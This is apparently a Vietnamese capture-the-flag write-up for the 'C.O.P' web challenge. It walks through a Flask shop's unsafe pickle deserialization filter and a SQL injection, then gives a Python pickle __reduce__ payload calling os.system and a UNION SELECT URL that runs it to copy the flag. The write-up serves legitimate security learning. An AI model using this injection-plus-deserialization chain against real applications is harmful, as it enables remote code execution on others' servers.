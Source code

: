 ## C.O.P
![image](../img/7.1.png)

![image](../img/7.2.png)

chall cung cấp 1 web bán hàng
lướt qua thì mình không thấy có feature gì nổi bật, mình view source

```
#app.py

from flask import Flask, g
from application.blueprints.routes import web
import pickle, base64

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')

@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()
```
mình thấy nó import module pickle tác dụng tương tự như serialization

tại document của python có warning
![image](../img/7.3.png)

có thêm func pickle_load() để deserialization

nhưng func này được gọi ở đâu? Nó sẽ được gọi trong template HTML, ở chall này theo source thì như sau:
![image](../img/7.4.png)

```
run.py 

from application.app import app
from application.database import migrate_db

with app.app_context():
    migrate_db()

app.run(host='0.0.0.0', port=1337, debug=False, use_evalex=False)
```
mình sẽ xem func `migrate_db()` thế nào.
![image](../img/7.5.png)

nó định nghĩa mảng `items` chứa các thông tin về sản phẩm, sau đó hàm `map` sử dụng hàm `lambda` lên từng phần trong `items`. Nó chuyển `Item` thành chuỗi nhị phân bằng `pickle.dump(x)`, sau đó encode base64 trả về `shop`

tiếp đó đưa các giá trị của `shop` vào db
Mình đã check thêm về filter lỗi SQLi rồi, hoàn toàn không có cơ chế phòng thủ, chúng ta có thể lợi dụng lỗi này

### Okee, tổng hợp lại chúng ta có :
1. Sử dụng module nguy hiểm `pickle` để serialization/deserialization sản phẩm lưu trong db
2. Lỗi SQL injection

Việc cần làm bây giờ là tạo base64 của payload bằng pickle rồi tận dụng lỗi SQL injection thực thi nó.Mình tiến hành code python:
```
import pickle
import base64
import os

payload = 'cp flag.txt application/static/.'

class RCE:
    def __reduce__(self):
        return os.system, (payload,)

if __name__ == '__main__':
    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))


#run python lấy payload
```

truy cập vào `http://94.237.59.199:33988/view/'UNION SELECT '<payload>`, sau đó truy cập tới `http://94.237.59.199:33988/static.flag.txt` nhận đc flag
![image](../img/7.6.png)
